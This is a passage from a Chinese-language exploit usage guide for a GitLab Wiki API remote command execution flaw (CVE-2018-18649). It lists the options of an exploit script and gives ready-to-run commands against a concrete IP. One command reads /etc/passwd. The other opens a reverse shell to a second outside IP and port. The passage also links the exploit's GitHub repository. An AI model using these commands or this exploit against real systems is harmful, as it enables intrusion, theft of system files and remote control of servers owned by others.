 ```
```

参数说明：

- `-t` 指定 Private Token
- `-f` 指定要查看的文件，如 /etc/passwd
- `-l` `-p` 指定反弹shell ip:port
- `-u` 在指定攻击目标的项目URL！必须是项目URL！如下图：

![title](https://leanote.com/api/file/getImage?fileId=5eb3b421ab64417e5901d119)



示例用法：

**查看 /etc/passwd：**

```
python3 exp.py -u "http://47.56.208.67/root/test/" -t "pyLXE32y3Ab6va9p6mAA"  -f "/etc/passwd"
```

![title](https://leanote.com/api/file/getImage?fileId=5eb3b0d0ab64417e5901c945)

**反弹 shell：**


```
python3 exp.py -u "http://47.56.208.67/root/test/" -t "pyLXE32y3Ab6va9p6mAA" -l 47.244.253.36 -p 9999
```

![title](https://leanote.com/api/file/getImage?fileId=5eb3b1a9ab6441018001cb6f)



> 本 exp 已上传至 Github： [CVE-2018-18649](https://github.com/Snowming04/CVE-2018-18649)


---------------------------


# 参考文档：


1. [Gitlab WIKI API](https://docs.gitlab.com/ee/api/wikis.html#upload-an-attachment-to-the-wiki-repository)
2. 漏洞原理：[Gitlab Wiki API 远程命令执行漏洞 (CVE-2018-18649)](https://www.seebug.org/vuldb/ssvid-97723)，知道创宇
2. Gitlab API：
    - https://docs.gitlab.com/ee/api/
    - https://docs.gitlab.com/ce/api/
3. 漏洞信息：https://nvd.nist.gov/vuln/detail/CVE-2018-18649
4. 本 exp 已上传至 Github： [CVE-2018-18649](https://github.com/Snowming04/CVE-2018-18649)